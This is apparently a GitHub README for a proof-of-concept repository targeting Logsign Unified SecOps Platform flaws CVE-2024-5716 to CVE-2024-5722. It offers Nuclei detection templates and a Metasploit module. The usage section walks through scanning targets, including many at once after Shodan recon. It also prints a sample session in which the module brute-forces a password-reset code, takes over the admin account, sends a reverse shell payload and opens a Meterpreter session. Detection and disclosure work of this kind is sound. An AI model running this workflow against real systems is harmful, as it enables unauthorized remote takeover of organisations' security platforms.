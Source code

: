 # Logsign Unified SecOps Platform: Detection CVE-2024-5716 to CVE-2024-5722 - Exploiting CVE-2024-5716 and CVE-2024-5717, Proof of Concept (PoC)

## Explanation:

This repository contains Nuclei template for detecting multiple vulnerabilities in Logsign Unified SecOps Platform. The template are designed to identify the following vulnerabilities:

- **ZDI-CAN-24164 > CVE-2024-5716**: Logsign Unified SecOps Platform Authentication Bypass Vulnerability
- **ZDI-CAN-24165 > CVE-2024-5717**: Logsign Unified SecOps Platform Command Injection Remote Code Execution Vulnerability
- **ZDI-CAN-24166 > CVE-2024-5718**: Logsign Unified SecOps Platform Missing Authentication Remote Code Execution Vulnerability
- **ZDI-CAN-24167 > CVE-2024-5719**: Logsign Unified SecOps Platform Command Injection Remote Code Execution Vulnerability
- **ZDI-CAN-24168 > CVE-2024-5720**: Logsign Unified SecOps Platform Command Injection Remote Code Execution Vulnerability
- **ZDI-CAN-24169 > CVE-2024-5721**: Logsign Unified SecOps Platform Missing Authentication Remote Code Execution Vulnerability
- **ZDI-CAN-24170 > CVE-2024-5722**: Logsign Unified SecOps Platform HTTP API Hard-coded Cryptographic Key Remote Code Execution Vulnerability

The metasploit exploit phase will be updated...

## Usage

To use these template with Nuclei, follow the example steps below:

### Clone the repository:

```sh
git clone https://github.com/j4nk3/Logsign-RCE.git
cd Logsign-RCE
```
### Usage with Nuclei:

**Single Target:**
```sh
nuclei -u https://target.com -t logsign-unauth-bypass-rce.yaml -nh
```
**Multiple Target:**
```sh
nuclei -l urls.txt -t logsign-unauth-bypass-rce.yaml -nh
```
**Sample Recon and Detection Process:**

<p align="center">
  <img src="https://github.com/user-attachments/assets/a0759656-9cf9-44cf-9113-87c483303bb4" alt="Recon with Shodan" width="400"/>
  <img src="https://github.com/user-attachments/assets/5ea535f3-f9a8-43f3-a65d-3c40783cd8c9" alt="Detection with Nuclei" width="400"/>
</p>

### Usage with Metasploit
```
# Step 1: Copy the .rb file to the Metasploit modules directory
sudo cp logsign-unauth-rce.rb /usr/share/metasploit-framework/modules/auxiliary/exploit/

# Step 2: Start Metasploit
msfconsole

# Step 3: Load the module
msf6 > use auxiliary/exploit/logsign-unauth-rce

# Step 4: Set the required options
msf6 auxiliary(exploit/logsign-unauth-rce) > set TARGETURI /
msf6 auxiliary(exploit/logsign-unauth-rce) > set USERNAME admin
msf6 auxiliary(exploit/logsign-unauth-rce) > set LHOST 0.0.0.0
msf6 auxiliary(exploit/logsign-unauth-rce) > set LPORT 1337
msf6 auxiliary(exploit/logsign-unauth-rce) > set RHOSTS 192.168.1.10
msf6 auxiliary(exploit/logsign-unauth-rce) > set RPORT 443

# Step 5: Run the exploit
msf6 auxiliary(exploit/logsign-unauth-rce) > run

[*] Resetting admin password using CVE-2024-5716...
[*] Forget password request sent for user: admin
[*] Successfully brute-forced reset code: 123456, verification code: 7890
[*] Password successfully reset to: Hkdi2983jdlGfdLS
[*] Successfully logged in with the new password. Session cookie: PHPSESSID=abcd1234...
[*] Sending reverse shell payload...
[*] Exploit completed, waiting for session...

[*] Meterpreter session 1 opened (192.168.1.100:1337 -> 192.168.1.10:443) at 2024-08-12 12:34:56 +0000
msf6 auxiliary(exploit/cve_2024_5716_5717_pre_auth_rce) >

```

Many thanks to @mdisec (Mehmet Ince) for the security research and critical finding detections performed on this product.

## Contributing
Feel free to submit issues or pull requests if you find any bugs or have suggestions for improvements.

## License
This project is licensed under the MIT License.

## References
[Logsign Support](https://support.logsign.net/hc/en-us/articles/19316621924754-03-06-2024-Version-6-4-8-Release-Notes)<br>
[Zero Day Inititive](https://www.zerodayinitiative.com/blog/2024/7/1/getting-unauthenticated-remote-code-execution-on-the-logsign-unified-secops-platform)

